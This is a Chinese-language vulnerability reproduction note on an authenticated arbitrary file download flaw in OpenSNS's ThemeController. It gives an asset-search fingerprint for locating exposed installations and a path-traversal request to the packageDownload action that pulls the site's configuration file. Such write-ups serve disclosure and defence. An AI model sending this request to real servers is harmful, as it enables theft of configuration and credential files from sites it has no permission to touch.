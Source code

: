 # OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235703575.png)

存在漏洞的文件为 `Application/Admin/Model/ThemeController.class.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634373152099-96ada529-b284-4aae-9a04-877693d8cfbf.png)	

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634373562017-e7805233-165a-4e99-b12b-9ef7d0be3508.png)

构造请求

```php
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634374149802-424a321a-71f3-404a-9397-9a1f3085b9f3.png)